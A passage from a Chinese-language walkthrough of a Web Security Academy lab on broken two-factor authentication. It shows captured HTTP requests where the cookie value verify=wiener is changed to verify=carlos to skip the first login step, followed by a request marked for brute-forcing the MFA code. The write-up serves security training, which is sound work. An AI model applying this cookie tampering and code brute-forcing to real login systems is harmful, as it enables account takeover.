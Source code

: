 第二步，再核对验证码，观察数据包，Cookie 字段里  `verify=wiener`

```http
POST /login2 HTTP/2
Host: 0aee00c104d0f06981f568be006800cc.web-security-academy.net
Cookie: verify=wiener; session=7x7x1YYY3tsRsty2AjUjxNqFeHjsQ6Pa
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aee00c104d0f06981f568be006800cc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aee00c104d0f06981f568be006800cc.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

mfa-code=1613
```

加入我们把 Cookie 里的字段 换成  `verify=carlos` ，这样就可能等于直接验证完成了 carlos 第一步（即无需carlos的密码便通过了第一步验证），接下来 carlos 用户完成第二步验证时可以爆破验证码

#### 步骤

越过第一步，修改验证码爆破

```http
POST /login2 HTTP/2
Host: 0aee00c104d0f06981f568be006800cc.web-security-academy.net
Cookie: verify=carlos; session=0o826uyU8Kvtla7CGkWx1pDaAtcRhtJy
Content-Length: 10
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aee00c104d0f06981f568be006800cc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aee00c104d0f06981f568be006800cc.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

mfa-code=§1111§
```
